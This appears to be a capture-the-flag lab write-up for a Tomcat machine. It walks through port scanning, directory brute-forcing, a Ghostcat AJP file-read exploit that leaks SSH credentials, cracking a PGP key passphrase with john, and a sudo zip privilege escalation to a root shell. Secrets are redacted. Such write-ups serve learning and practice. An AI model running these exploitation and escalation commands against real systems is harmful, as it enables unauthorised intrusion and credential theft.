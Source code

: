 ## Target IP: `10.10.9.161`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.9.161 -oN results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.2p2 |
| 53 | ??? | tcpwrapped (unclear) |
| 8009 | AJP13 | Apache Jserv v1.3 |
| 8080 | HTTP | Apache Tomcat 9.0.30 |

---

### Web Enumeration (Port 8080)

Visited `http://10.10.9.161:8080`

→ Default Apache Tomcat splash page.

---

### Directory Brute Force (Using `ffuf`)

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -ic -s -r -o tomghost.txt -u http://10.10.9.161:8080/FUZZ
```

**FFUF Flag Breakdown:**

- `t 100` → 100 threads
- `ic` → Ignore case in response content
- `s` → Silent (suppress unnecessary output)
- `r` → Follow redirects
- `o` → Output to file
- `u` → Target URL

**Discovered Paths:**

- `/docs`
- `/examples`
- `/manager`
    
    (All led nowhere useful.)
    

---

### Exploiting Ghostcat (Port 8009 AJP)

**Ghostcat Vulnerability Summary (shortened):**

AJP on port 8009 allows unauthenticated access to sensitive files due to misconfigurations. If file uploads are allowed, remote code execution is possible.

Used Python tool from GitHub:

[ajpShooter.py](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

**Command:**

```bash
python3 ajpShooter.py http://10.10.9.161:8080 8009 /WEB-INF/web.xml read
```

**Output included:**

```xml
...
<description>
   Welcome to GhostCat
      skyfuck:[REDACTED]
</description>
```

---

### SSH Login

```bash
ssh skyfuck@10.10.9.161
# Password: [REDACTED]
```

**Confirmed login success.**

```bash
sudo -l
# → skyfuck cannot run anything as sudo
```

---

### User Flag

- Found `merlin` user in `/home`
- `merlin/user.txt` → `THM{[REDACTED]}`

---

### Skyfuck’s Home Directory

**Files:**

- `credential.pgp` → Encrypted file
- `tryhackme.asc` → PGP private key (ASCII-armored)

**Downloaded both files using:**

```bash
scp skyfuck@10.10.9.161:/home/skyfuck/* .
```

---

### PGP Decryption Process (Fully Explained)

1. **What's Going On Here:**
    - `.pgp` = Encrypted file
    - `.asc` = Private key in text format
    - We need the password for the private key to decrypt the `.pgp` file
2. **Step-by-Step:**

**Step 1: Crack the password for the `.asc` key file**

```bash
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

**Result:**

`[REDACTED]` ← password for the PGP key

---

**Step 2: Import the key**

```bash
gpg --import tryhackme.asc
# Enter password: [REDACTED]
```

---

**Step 3: Decrypt the `.pgp` file**

```bash
gpg --output decrypted_file --decrypt credential.pgp
```

**Decrypted output:**

```
merlin:[REDACTED]
```

---

### SSH into `merlin`

```bash
ssh merlin@10.10.9.161
# Password: [REDACTED]
```

---

### Privilege Escalation (Sudo Zip Exploit)

```bash
sudo -l
# → (root : root) NOPASSWD: /usr/bin/zip
```

Used method from GTFOBins - zip:

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

- `mktemp -u`: creates a unique temp filename
- `T -TT 'sh #'`: uses `sh` as the command when zip is executed

**Root shell achieved**

---

### Final Flag

```bash
cd /root
cat root.txt
# → THM{[REDACTED]}
```
    3. Use `gpg --decrypt` to open the `.pgp` file
